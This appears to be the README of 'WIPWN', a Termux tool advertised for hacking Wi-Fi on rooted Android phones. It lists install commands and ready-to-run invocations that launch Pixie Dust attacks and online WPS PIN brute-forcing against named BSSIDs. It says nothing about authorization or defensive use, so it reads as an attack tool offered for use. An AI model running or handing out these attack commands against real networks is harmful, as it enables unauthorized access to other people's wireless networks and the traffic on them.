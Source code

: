 # WIPWN
Hack wifi using termux (rooted)

### Installation :

```bash
pkg update && pkg upgrade -y
pkg install root-repo -y
pkg install git tsu python termux-api wpa-supplicant pixiewps iw -y
git clone https://github.com/illusionghost3/wipwn
cd wipwn
chmod +x main.py
```

#### Help : `sudo python wipwn.py --help`
#### Example : `sudo python wipwn.py -i wlan0 -K`

#### Note: 
+ **First turn off your Wifi.**
+ **Turn on Hotspot.**
+ **Turn on Location.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python wipwn.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python wipwn.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python wipwn.py -i wlan0 -b 50:0F:F5:B0:08:05 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**


### Thanks For Star🙏👨‍💻

[![Stargazers repo](https://reporoster.com/stars/illusionghost3/wipwn)](https://github.com/illusionghost3/wipwn/stargazers)

### Thanks For Fork 🙏👨‍💻

[![Forkers repo](https://reporoster.com/forks/illusionghost3/wipwn)](https://github.com/illusionghost3/wipwn/network/members)

